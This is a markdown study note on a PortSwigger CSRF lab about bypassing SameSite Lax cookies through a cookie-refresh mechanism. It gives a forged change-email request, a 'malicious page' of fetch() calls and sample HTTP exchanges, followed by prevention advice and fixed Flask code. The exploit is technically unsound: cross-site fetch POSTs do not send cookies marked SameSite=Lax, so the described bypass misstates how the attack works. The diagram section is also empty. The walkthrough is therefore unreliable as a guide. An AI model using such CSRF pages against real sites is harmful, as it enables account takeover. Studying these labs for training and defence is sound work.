

## Lab 12: SameSite Lax Bypass via Cookie Refresh

In this lab, we will explore a scenario where the SameSite attribute is set to `Lax`, but an attacker can bypass this protection through a cookie refresh mechanism.

### Background Theory

The lab involves a web application that allows users to change their email address. The application uses the SameSite attribute set to `Lax` to mitigate CSRF attacks. However, the application also has a mechanism that refreshes cookies periodically, which can be exploited by an attacker.

### Steps to Exploit the Vulnerability

1. **Access the Lab**: Log in to the Web Security Academy and navigate to the lab titled "SameSite Lax Bypass via Cookie Refresh."
2. **Understand the Application**: Familiarize yourself with the application's functionality, particularly the change email feature.
3. **Craft the Malicious Request**: Create a malicious request that changes the user's email address.
4. **Exploit the Cookie Refresh Mechanism**: Use the cookie refresh mechanism to bypass the SameSite `Lx` protection.

### Detailed Steps

#### Step 1: Access the Lab

To access the lab, follow these steps:

1. Visit the URL: `https://portswigger.net/web-security`
2. Click on the "Sign up" button to create an account if you don't have one.
3. Once logged in, navigate to the "Academy" section.
4. Select "All Labs" and search for "cross-site request forgery labs."
5. Find and click on lab number 12 titled "SameSite Lax Bypass via Cookie Refresh."

#### Step 2: Understand the Application

The application allows users to change their email address. The application uses the SameSite attribute set to `Lax` to protect against CSRF attacks. However, the application also has a mechanism that refreshes cookies periodically.

#### Step 3: Craft the Malicious Request

To craft the malicious request, you need to understand the structure of the request that changes the email address. Here is an example of the HTTP request:

```http
POST /change-email HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

email=new.email@example.com
```

#### Step 4: Exploit the Cookie Refresh Mechanism

The key to bypassing the SameSite `Lax` protection is to exploit the cookie refresh mechanism. The attacker can trick the user into loading a page that triggers the cookie refresh mechanism, which sends the necessary cookies with the malicious request.

Here is a detailed example of how to exploit the vulnerability:

1. **Create the Malicious Page**: Create a page that triggers the cookie refresh mechanism and includes the malicious request.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
</head>
<body>
    <script>
        // Trigger the cookie refresh mechanism
        fetch('https://vulnerable-app.com/refresh-cookie', {
            method: 'GET',
            credentials: 'include'
        });

        // Send the malicious request
        fetch('https://vulnerable-app.com/change-email', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: 'email=new.email@example.com',
            credentials: 'include'
        });
    </script>
</body>
</html>
```

2. **Host the Malicious Page**: Host the malicious page on the provided exploit server.

3. **Trick the User**: Trick the user into loading the malicious page, which triggers the cookie refresh mechanism and sends the malicious request.

### Full HTTP Requests and Responses

Here are the full HTTP requests and responses for the cookie refresh and the malicious request:

#### Cookie Refresh Request

```http
GET /refresh-cookie HTTP/1.1
Host: vulnerable-app.com
Cookie: session=abc123
```

#### Cookie Refresh Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/html
Set-Cookie: session=def456; SameSite=Lax; Secure
Content-Length: 0
```

#### Malicious Request

```http
POST /change-email HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=def456

email=new.email@example.com
```

#### Malicious Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Content-Type: text/html
Content-Length: 0
```

### Mermaid Diagrams

#### Sequence Diagram



### How to Prevent / Defend Against CSRF

#### Detection

To detect CSRF vulnerabilities, you can use automated tools such as:

- **OWASP ZAP**: A free and open-source web application security scanner.
- **Burp Suite**: A comprehensive toolkit for web application security testing.

#### Prevention

To prevent CSRF attacks, implement the following measures:

1. **Use the SameSite Attribute**: Set the SameSite attribute to `Strict` or `Lax` to control the context in which cookies are sent.
2. **Implement CSRF Tokens**: Use unique, unpredictable tokens for each form submission to ensure that only legitimate requests are processed.
3. **Validate Referrer Headers**: Check the `Referer` header to ensure that requests originate from trusted sources.
4. **Use Content Security Policy (CSP)**: Implement CSP to restrict the sources of content that can be loaded in the browser.

#### Secure Coding Fixes

Here is an example of a vulnerable code snippet and its secure counterpart:

##### Vulnerable Code

```python
@app.route('/change-email', methods=['POST'])
def change_email():
    new_email = request.form['email']
    # Update the user's email address in the database
    return "Email changed successfully"
```

##### Secure Code

```python
@app.route('/change-email', methods=['POST'])
def change_email():
    csrf_token = request.form['csrf_token']
    if csrf_token != session['csrf_token']:
        abort(403)  # Forbidden

    new_email = request.form['email']
    # Update the user's email address in the database
    return "Email changed successfully"
```

### Configuration Hardening

Ensure that your web application is configured securely by implementing the following:

1. **Set Secure Cookies**: Ensure that cookies are marked as `Secure` and `HttpOnly`.
2. **Enable HSTS**: Use HTTP Strict Transport Security (HSTS) to enforce secure connections.
3. **Configure CSP**: Implement Content Security Policy (CSP) to restrict the sources of content that can be loaded in the browser.

### Hands-On Lab Suggestions

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice different types of web security vulnerabilities, including CSRF.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and practicing these concepts, you can effectively mitigate CSRF vulnerabilities and enhance the security of web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/13-Lab 12 SameSite Lax bypass via cookie refresh/01-Introduction to Cross-Site Request Forgery (CSRF)|Introduction to Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/13-Lab 12 SameSite Lax bypass via cookie refresh/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/13-Lab 12 SameSite Lax bypass via cookie refresh/03-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]]
